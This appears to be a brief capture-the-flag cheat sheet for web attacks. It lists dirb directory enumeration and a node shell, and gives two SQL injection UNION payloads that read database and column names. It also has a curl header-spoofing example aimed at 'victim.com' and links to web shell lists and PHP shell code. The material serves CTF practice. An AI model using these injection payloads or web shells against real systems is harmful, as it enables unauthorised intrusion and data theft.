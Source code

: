 Directory traversal attack
-

* [`dirb`](https://tools.kali.org/web-applications/dirb)

	* `dirb <target-address>`


JavaScript
-

* `shell`
	
	node command line шеллийг ашиглаж болно.


SQLi
-

* `UNION`
	
```
' UNION SELECT current_database() as name --
' AND 1=0 UNION SELECT COLUMN_NAME FROM information_schema.COLUMNS --
```

Curl
-

* `Playing with header`
	
	* `curl -H "User-Agent: SUPER SECRET AGENT" http://victim.com/`
	
Web shells
-

* `Shells`
	
	* [dict.txt](https://github.com/ByamB4/Capture-The-Flag-Tools/blob/master/Web/shells/list.txt)
	* [\*.php](https://github.com/ByamB4/Capture-The-Flag-Tools/tree/master/Web/shells/code)
